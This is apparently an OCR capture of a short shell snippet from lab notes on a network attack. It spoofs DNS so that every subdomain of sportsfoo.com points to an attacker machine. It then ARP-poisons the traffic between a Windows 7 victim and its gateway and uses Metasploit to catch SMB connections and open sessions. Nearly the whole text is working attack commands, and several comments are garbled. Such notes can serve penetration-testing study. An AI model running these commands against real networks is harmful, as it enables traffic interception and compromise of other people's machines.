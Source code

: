 ```shell
# In order to redirect the victim to our Metasploit system every time there's an SMB connection to any host in the domain, create a file with fake dns entry with all subdomains of sportsfoo.com pointing to our attacker machine.

echo "172.16.5.101 *.sportsfoo.com" > dns
# We are ready to run.
dnsspoof -i eth1 -f dns

# How move on to setting up the man in the middle attack and we'll utilize arp spoofing and our goal is to poison the traffic between our victim which is the Windows 7 system and the default gateway.
echo 1 > /proc/sys/net/ipv4/ip_forward
# In one terminal
arpspoof -i eth1 -t <TARGET_IP> -r <HOST_IP> # without -r

# In another terminal
arpspoof -i eth1 -t <TARGET_IP> -r <HOST_IP> 

# Every time the victim system or the wiondows 7 starts on SMB connection DNS spoof aligned with the arp spoofing attack forgets the DNS replies telling that the DNS address that they're looking for resolves to the Kali Linux system.
exploit # metasploit
jobs

sessions
getuid
```
